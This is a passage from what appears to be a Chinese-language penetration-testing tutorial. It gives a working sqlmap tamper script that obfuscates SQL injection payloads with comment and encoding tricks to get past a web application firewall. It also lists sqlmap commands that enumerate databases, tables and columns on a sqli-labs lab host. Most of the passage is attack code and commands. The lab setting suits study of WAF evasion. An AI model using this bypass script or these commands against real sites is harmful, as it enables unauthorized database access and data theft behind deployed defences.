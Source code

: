         return payload.replace('\'', "%EF%BC%87") if payload else payload  
    

可见Tamper脚本的结构非常简单，其实渗透测试中的主要难点还是如何去绕过WAF。

下面我们针对bypass部分的绕过方法进行编写Tamper脚本，来实现自动化SQL注入：

> 实际测试的时候发现，sqlmap默认语句中的`AS`关键字也会被拦截，这里也用同样的方法替换一下就好
    
    
    #!/usr/bin/env python  
      
    import re  
      
    from lib.core.settings import UNICODE_ENCODING  
    from lib.core.enums import PRIORITY  
    __priority__ = PRIORITY.NORMAL  
      
    def dependencies():  
        pass  
      
    def tamper(payload, **kwargs):  
        if payload:  
            payload = payload.replace(" ","/*/!%!/*/")  
            payload = payload.replace("()","(/*/!%!/*/)")  
            payload = re.sub(r"(?i)(INFORMATION_SCHEMA.SCHEMATA)",r"/*!00000--%20/*%/%0aINFORMATION_SCHEMA.SCHEMATA*/",payload)  
            payload = re.sub(r"(?i)(INFORMATION_SCHEMA.TABLES)",r"/*!00000--%20/*%/%0aINFORMATION_SCHEMA.TABLES*/",payload)  
            payload = re.sub(r"(?i)(INFORMATION_SCHEMA.COLUMNS)",r"/*!00000--%20/*%/%0aINFORMATION_SCHEMA.COLUMNS*/",payload)  
            payload = re.sub(r"(?i)(/AS/)",r"//*!00000--%20/*%/%0aAS*//",payload)          
      
        return payload  
    

测试：

    
    
    sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent

![](https://gitee.com/fuli009/images/raw/master/public/20230222180232.png)

    
    
    sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent --dbs
    
    
    sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent -D security --tables

![](https://gitee.com/fuli009/images/raw/master/public/20230222180235.png)

    
    
    python2 sqlmap.py -u "http://192.168.13.131/sqli-labs/Less-2/?id=1" --tamper "bypassDog.py" --proxy "http://127.0.0.1:8080/" --fresh-queries --random-agent -D security -T users --columns

![](https://gitee.com/fuli009/images/raw/master/public/20230222180237.png)
